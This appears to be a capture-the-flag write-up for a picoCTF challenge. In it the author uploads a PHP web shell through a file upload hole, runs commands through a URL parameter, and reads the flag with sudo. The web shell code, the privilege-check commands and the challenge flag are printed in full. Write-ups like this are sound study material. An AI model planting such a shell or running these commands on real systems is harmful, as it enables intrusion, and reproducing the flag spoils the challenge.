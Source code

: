 # Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality


![SHELLupload](../media/Screenshots/Shell-upload-output-n0s4n1ty.png)

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL


![whoamioutput](../media/Screenshots/whoami-output-n0s4n1ty.png)


With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:


![sudo-loutput](../media/Screenshots/sudo-l--output-n0s4n1ty.png)


which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory


![rootoutput](../media/Screenshots/ls-root-n0s4n1ty.png)


Then it's BBQ chicken from there

!['loki gif'](../media/gifs/Devious-ahh-loki.gif)


# Capturing the flag 🏁

    sudo cat /root/flag.txt

![flagoutput](../media/Screenshots/flag-n0s4n1ty.png)

    picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}

Flag captured. Game over. 🎯

!['loki gif'](../media/gifs/tom-hiddleston-loki-wink.gif)


# Lessons learned

Don't waste time trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

!['loki gif'](../media/gifs/Frustrated-loki.gif)

